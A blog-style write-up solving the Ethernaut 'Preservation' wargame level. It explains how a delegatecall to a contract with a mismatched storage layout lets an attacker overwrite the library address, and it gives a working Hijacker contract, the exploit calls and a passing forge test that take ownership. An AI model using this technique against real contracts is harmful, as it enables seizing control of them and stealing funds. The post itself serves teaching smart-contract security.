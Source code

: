 ###########################
Ethernaut 16: Preservation
###########################
:date: 2023-09-17
:slug: ethernaut-16-preservation
:summary: What even *is* a library?
:tags: 
:author: capu
:featured_image:


Objective
=========
Become the contract owner

Code
====

.. code-block:: solidity
    :linenos: inline
    :hl_lines: 6

    contract Preservation {
        // public library contracts
        address public timeZone1Library;
        address public timeZone2Library;
        address public owner;
        uint256 storedTime;
        // Sets the function signature for delegatecall
        bytes4 constant setTimeSignature = bytes4(
            keccak256("setTime(uint256)")
        );

        constructor(
            address _timeZone1LibraryAddress,
            address _timeZone2LibraryAddress
        ) {
            timeZone1Library = _timeZone1LibraryAddress;
            timeZone2Library = _timeZone2LibraryAddress;
            owner = msg.sender;
        }

        // set the time for timezone 1
        function setFirstTime(uint256 _timeStamp) public {
            timeZone1Library.delegatecall(
                abi.encodePacked(setTimeSignature, _timeStamp)
            );
        }

        // set the time for timezone 2
        function setSecondTime(uint256 _timeStamp) public {
            timeZone2Library.delegatecall(
                abi.encodePacked(setTimeSignature, _timeStamp)
            );
        }
    }

    // Simple library contract to set the time
    contract LibraryContract {
        // stores a timestamp
        uint256 storedTime;

        function setTime(uint256 _time) public {
            storedTime = _time;
        }
    }

the level factory creates two instances of the ``LibraryContract`` and passes
them as constructor parameters.

Solution
========
there are two big smells with this one

- the library contract is, well, not a library. It uses the ``contract`` keyword
  and has a state of its own.
- the delegatecall'd contract doesn't have the same storage layout as the caller.

Hold on, what actually *is* a library?
--------------------------------------

    A library is a piece of code, usually implemented by someone else, exposing
    a programatical interface which runs in the same environment as the rest of
    *your* code and solves a particular problem

    > My abstractooor roomate

A point of contempt with this definition is wether a library can have *state* of
its own, that is, if it can store some information within itself, and
potentially use it to not be idempotent (having two identical calls cause
different effects).

Solidity thankfully allows us to defenestrate that point of nuance, and has a
much more concrete definition of library:

    Libraries are similar to contracts, but their purpose is that they are
    deployed only once at a specific address and their code is reused using the
    DELEGATECALL (CALLCODE until Homestead) feature of the EVM. This means that
    if library functions are called, their code is executed in the context of
    the calling contract [...] libraries are assumed to be stateless.

For layman implementors, this has a few consequences:

- If defining libraries with Solidity's ``library`` keyworkds and regular
  (or ``using..for``) calling syntax, I'll be spared the details, since
  it's a compile error to even define a non-constant state field in a library.
- If I want to use delegatecall manually, I will **not** have the same
  behaviour, nor the same safeguards, as above out of the box.

The contracts for this level try to do the latter without care for how
``DELEGATECALL`` actually works, ``delegatecall`` ing a contract that behaves as
it had a state of its own, when it actually is using the state of the calling
contract.

Concretely, the ``LibraryContract`` will set the first word of storage 
word of the Preservation storage to whatever I want, and what can I find
there?

.. code::

    [I] > forge inspect --pretty  Preservation storageLayout
    | Name             | Type    | Slot | Offset | Bytes |
    |------------------|---------|------|--------|-------|
    | timeZone1Library | address | 0    | 0      | 20    |
    | timeZone2Library | address | 1    | 0      | 20    |
    | owner            | address | 2    | 0      | 20    |
    | storedTime       | uint256 | 3    | 0      | 32    |

... not the owner, sadly, but the first 20 bytes of the first word of storage is
where the ``timeZone1Library`` is stored. I can:

1. set it to some other ``Hijacker`` contract
2. call ``setFirstTime`` on the ``Preservation`` contract
3. ``Preservation`` will ``delegatecall``  to the the ``Hijacker``
4. this ``Hijacker`` will set the third storage slot to the attacker address.

The ``setFirstTime`` function takes a uint256 and not an ``address``, so I'll
have to do a bit of memory shuffling to get it just right:

.. code-block:: solidity

    Hijacker hijacker = new Hijacker(attacker);
    uint256 spookyTimestamp = uint256(uint160(address(hijacker)));
    target.setFirstTime(spookyTimestamp);
    target.setFirstTime(0);

Awesome. But how should the ``Hijacker`` look like?

From above, I know the owner is in storage slot 3. So I should craft a contract
that writes to the third storage slot when a ``setTime(uint256)`` is called on
it:

.. code-block:: solidity

    contract Hijacker {
        address private padding1;
        address private padding2;
        address private owner;
        address immutable private newOwner;

        constructor(address newOwner_){
            newOwner = newOwner_;
        }

        function setTime(uint256) public {
            owner = newOwner;
        }
    }

... let's check the storage layout:

.. code::

    [I] > forge inspect --pretty  Hijacker storageLayout
    | Name     | Type    | Slot | Offset | Bytes |
    |----------|---------|------|--------|-------|
    | padding1 | address | 0    | 0      | 20    |
    | padding2 | address | 1    | 0      | 20    |
    | owner    | address | 2    | 0      | 20    |

... and run the thing:

.. code::

    [I] > forge test --mc Preservation
    [⠊] Compiling...
    [⠆] Compiling 1 files with 0.8.21
    Running 1 test for test/16-Preservation.t.sol:PreservationSolution
    [PASS] testSolution() (gas: 2273944)
    Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 922.32µs
    Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)

😎
